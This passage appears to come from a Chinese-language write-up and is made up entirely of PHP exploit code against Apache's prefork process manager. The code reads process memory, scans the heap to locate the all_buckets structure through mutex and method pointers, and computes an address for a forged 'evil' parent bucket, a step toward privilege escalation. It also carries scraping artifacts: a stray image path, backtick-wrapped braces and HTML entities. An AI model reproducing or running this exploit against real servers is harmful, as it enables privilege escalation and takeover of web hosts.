 ```
        if($libapr_region[$i][2] === "r--p")`{`//const data
            $libapr_data_start_addr = $libapr_region[$i][0];
            $libapr_data_end_addr = $libapr_region[$i][1];
            continue;
        `}`
    `}`

    echo "libapr text start addr:0x".dechex($libapr_text_start_addr)."\n";
    echo "libapr text end addr:0x".dechex($libapr_text_end_addr)."\n";

    echo "libapr data start addr:0x".dechex($libapr_data_start_addr)."\n";
    echo "libapr data end addr:0x".dechex($libapr_data_end_addr)."\n";

    $result = array();
    $result_index = 0;
    for($i = 0;$i&lt;$heap_end_addr - $heap_start_addr;$i+=8)`{`//遍历heap
        $mutex_addr = read_mem_qword($heap_start_addr + $i);//prefork_child_bucket中的mutex
        if( $heap_start_addr &lt;$mutex_addr &amp;&amp; $mutex_addr&lt;$heap_end_addr )`{`

            $meth_addr = read_mem_qword($mutex_addr + 8);//apr_proc_mutex_t中的meth

            if( $libapr_data_start_addr &lt; $meth_addr &amp;&amp; $meth_addr &lt; $libapr_data_end_addr)`{`

                $function_point = read_mem_qword($meth_addr+8);
                if($libapr_text_start_addr &lt; $function_point &amp;&amp; $function_point &lt; $libapr_text_end_addr)`{`
                    $result[$result_index++] = $heap_start_addr + $i - 8 -8;
                `}`
            `}`
        `}`
    `}`

    //在我的环境中，有多个地址满足是all_buckets 地址的要求，但是只有第3个才是正确的
    if( count($result)!= 4 )`{`
        return 0;
    `}`
    else`{`
        return $result[2];
    `}`
`}`

echo "PID: ".getmypid()."\n";

$parent_struct_addr = locate_self_parent_struct_addr();
if($parent_struct_addr == 0)`{`
    die("get self parent struct addr error\n");
`}`
echo "self parent struct addr:0x".dechex($parent_struct_addr)."\n";

$parent_arr_addr = locate_parent_arr_addr();
if($parent_arr_addr)`{`
    echo "parent arr addr:0x".dechex($parent_arr_addr)."\n";
`}`

$all_buckets_addr = locate_all_buckets_addr();
if($all_buckets_addr == 0)`{`
    die("get all_buckets addr error\n");
`}`
echo "all_buckets addr:0x".dechex($all_buckets_addr)."\n";

$evil_parent_start_addr = $parent_arr_addr + 0x24 * 10;//(我这里的parent 就是 prefork_child_bucket结构，0x24是每个prefork_child_bucket的大小，10参考http-mpm.conf中prefork的MaxSpareServers)
```